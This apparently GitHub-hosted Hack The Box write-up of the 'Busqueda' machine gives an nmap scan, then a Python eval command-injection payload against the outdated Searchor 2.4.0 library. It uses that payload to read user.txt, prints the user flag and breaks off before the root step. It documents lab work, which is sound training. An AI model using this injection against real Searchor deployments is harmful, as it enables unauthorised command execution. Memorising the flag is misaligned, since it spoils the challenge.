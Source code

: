 # Busqueda
## STEPS:

> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.208 --min-rate 1000 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 06:54 PDT
Nmap scan report for 10.10.11.208
Host is up (0.022s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.75 seconds
```

1. Based from the result, we know the host is running a web application in Apache version 2.4.52.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/526c63f9-847f-47ed-bd77-601505d93479)


2. Looking at the footer, we know the webapp using Flask and searchor version 2.4.0 (which is outdated) and there are many documentation out there.
3. Telling that this version is vulnerable to **command injection**.

> Documenations

```
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```

4. Reading one of the github, it seems the vuln is at:

> The blocked

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1a5046fd-3c43-4817-9098-589e27c710e5)


5. There's a eval usage, which allows us to inject bash command. But we can't just send --> `__import__('os').system('id')`, after tested the feature in normal way, seems we need to add `'` and wrap the python code with `str()`.

> TESTING NORMAL WAY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/677c944e-abcb-4b1a-ae32-60ecc1d11f0c)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/651bc11c-53be-4a88-b50d-367ad49224d4)


> OUR PAYLOAD

```py
') + str(__import__('os').system('id')) #
```

6. What it will look like:

```py
url = eval(Engine.<some_engine>.search('') + str(__import__('os').system('id')) #', copy_url={copy}, open_web={open})")
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60c5b8bd-f160-4eb2-a9b9-b206961c9dc4)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/322d7a72-6ea5-414e-97de-030dedb402e3)


7. Long story short, I got the user.txt inside the /home/svc directory.

```
') + str(__import__('os').system('cd .. && cd .. && cd .. && cd home && cd svc && cat user.txt && ls -a')) #
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ce1079fb-52db-4f00-a420-1661b7804100)


## USER FLAG

```
d8ad3edaacebd00c00e4b7c6fbdfbb77
```


8. To get the root flag, we need to do 


